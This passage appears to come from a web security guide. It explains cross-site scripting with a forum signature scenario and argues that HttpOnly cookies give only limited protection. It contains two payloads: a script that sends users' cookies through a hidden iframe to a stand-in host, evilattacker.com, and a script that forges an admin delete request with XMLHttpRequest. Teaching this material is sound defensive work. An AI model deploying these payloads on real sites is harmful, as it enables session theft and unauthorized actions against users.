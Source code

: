 A Cross-Site Scripting Example
==============================

Let's imagine that an attacker has stumbled across a custom built forum which allows users to display a small signature beneath their comments. Investigating this further, the attacker sets up an account, spams all topics in reach, and uses the following markup in their signature which is attached to all of their posts:

.. code-block:: html

    <script>document.write('<iframe src="http://evilattacker.com?cookie='
        + document.cookie.escape() + '" height=0 width=0 />');</script>

By some miracle, the forum software includes this signature as-is in all those spammed topics for all the forum users to load into their browsers. The results should be obvious from the Javascript code. The attacker is injecting an iframe into the page which will appear as a teeny tiny dot (zero sized) at the very bottom of the page attracting no notice from anyone. The browser will send the request for the iframe content which passes each user's cookie value as a GET parameter to the attacker's URI where they can be collated and used in further attacks. While typical users aren't that much of a target for an attacker, a well designed trolling topic will no doubt attract a moderator or administrator whose cookie may be very valuable in gaining access to the forums moderation functions.

This is a simple example but feel free to extend it. Perhaps the attacker would like to know the username associated with this cookie? Easy! Add more Javascript to query the DOM and grab it from the current web page to include in a "username=" GET parameter to the attacker's URL. Perhaps they also need information about your browser to handle a Fingerprint defense of the session too? Just include the value from "navigator.userAgent".

This simple attack has a lot of repercussions including potentially gaining control over the forum as an administrator. It's for this reason that underestimating the potential of XSS attack is ill advised.

Of course, being a simple example, there is one flaw with the attacker's approach. Similar to examples using Javascript's alert() function I've presented something which has an obvious defense. All cookies containing sensitive data should be tagged with the HttpOnly flag which prevents Javascript from accessing the cookie data. The principle you should remember, however, is that if the attacker can inject Javascript, they can probably inject all conceivable Javascript. If they can't access the cookie and mount an attack using it directly, they will do what all good programmers would do: write an efficient automated attack.

.. code-block:: html
    :emphasize-lines: 4

     <script>
        var params = 'type=topic&action=delete&id=347';
        var http = new XMLHttpRequest();
        http.open('POST', 'forum.com/admin_control.php', true);
        http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        http.setRequestHeader("Content-length", params.length);
        http.setRequestHeader("Connection", "close");
        http.onreadystatechange = function() {
            if(http.readyState == 4 && http.status == 200) {
                // Do something else.
            }
        };
        http.send(params);
     </script>

The above is one possible use of Javascript to execute a POST request to delete a topic. We could encapsulate this in a check to only run for a moderator, i.e. if the user's name is displayed somewhere we can match it against a list of known moderators or detect any special styling applied to a moderator's displayed name in the absence of a known list.

As the above suggests, HttpOnly cookies are of limited use in defending against XSS. They block the logging of cookies by an attacker but do not actually prevent their use during an XSS attack. Furthermore, an attacker would prefer not to leave bread crumbs in the visible markup to arouse suspicion unless they actually want to be detected.

Next time you see an example using the Javascript alert() function, substitute it with a XMLHttpRequest object to avoid being underwhelmed.